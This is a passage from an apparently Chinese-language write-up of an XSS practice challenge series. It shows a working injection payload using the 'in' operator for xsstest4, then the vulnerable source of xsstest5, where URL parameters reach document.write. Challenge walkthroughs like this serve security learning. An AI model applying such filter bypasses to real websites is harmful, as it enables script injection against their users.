 ![](https://img.mi3aka.eu.org/2022/09/bbd9d025c58f7468aaacefb00c43723c.png)

或者可以使用运算符`in`

`http://px1624.sinaapp.com/test/xsstest4/?px=' in alert(1) in'`

![](https://img.mi3aka.eu.org/2022/09/3a7b39dccba499509f787d7ed0a9de67.png)

# xsstest5

```html
<html>
<script src="../jquery-3.4.1.min.js"></script>
<Script src="./index.js"></Script>
<head>
<script type="text/javascript">
var orguin = $.Tjs_Get('uin');
var pagenum= $.Tjs_Get('pn');
if(orguin<=0) window.location="./user.php?callback=Give me xss bypass~";
document.write('<script type="text/javascript" 	src="http://px1624.sinaapp.com/'+orguin+'?'+pagenum+'"><\/script>');
</script>
</head>
<body>
Give me xss bypass 5~
</body>
</html>
```

```js
Tjs_Get:function(parmtname){
	var sl = location.href.indexOf('&');
	var hl = location.href.indexOf('#');
	var str = '';
	if ((sl < 0 || sl > hl) && hl > 0) str = location.hash.substr(1);
	else str = location.search.substr(1);
			
	str=str.replace(/%/g,"");
	//var SERVER_TEMP = str;
	var SERVER_TEMP			= $.Tjs_HtmlEncode(str.replace(/.*\?/,"")); //HtmlEncode ���а�ȫ��֤

	var PAGE_PARMT_ARRAY	= SERVER_TEMP.split("&amp;");
	if(PAGE_PARMT_ARRAY.length==0) return "";
	var value="";
	for(var i=0;i<PAGE_PARMT_ARRAY.length;i++){
		if(PAGE_PARMT_ARRAY[i]=="") continue;
		var GETname = PAGE_PARMT_ARRAY[i].substr(0,PAGE_PARMT_ARRAY[i].indexOf("="));
		if(GETname == parmtname){
			value = PAGE_PARMT_ARRAY[i].substr((PAGE_PARMT_ARRAY[i].indexOf("=")+1),PAGE_PARMT_ARRAY[i].length);
			return value;
			break;
		}
	}
	return "";
},
```
